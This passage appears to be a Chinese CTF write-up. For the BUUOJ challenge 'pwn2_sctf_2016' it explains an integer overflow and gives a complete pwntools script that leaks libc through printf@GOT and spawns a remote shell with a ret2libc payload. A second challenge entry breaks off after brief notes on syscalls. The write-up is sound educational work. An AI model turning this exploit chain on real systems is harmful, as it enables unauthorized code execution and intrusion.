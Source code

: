 

## 0x17.pwn2_sctf_2016

get_n函数的第二个参数是unsigned int，可以整数溢出。

接收了两次you said，第一次是程序本身，第二次是自己的format。

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
io = remote("node3.buuoj.cn",25915)
#io = process("./pwn2_sctf_2016")
elf = ELF("./pwn2_sctf_2016")
libc = ELF("./libc-2.23.so")
io.recv()
printf_plt = elf.plt['printf']
vuln_addr = 0x0804852F
fmt_addr = 0x080486F8
printf_got = elf.got['printf']
payload = 'a'*(0x2c+4)+p32(printf_plt) +p32(vuln_addr)+p32(fmt_addr)+p32(printf_got)

io.sendline("-1")
io.sendline(payload)
io.recvuntil("You said: ")
io.recvuntil("You said: ")
printf_addr = u32(io.recv(4))
print hex(printf_addr)

libc_base = printf_addr - libc.sym['printf']

system_addr = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search('/bin/sh'))
io.recv()
io.sendline("-1")

payload = 'a'*(0x2c+4) + p32(system_addr)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)

io.interactive()
```



## 0x18.ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>1. 传参方式不同
>
>2. 系统调用号 不同
>
>3. 调用方式 不同
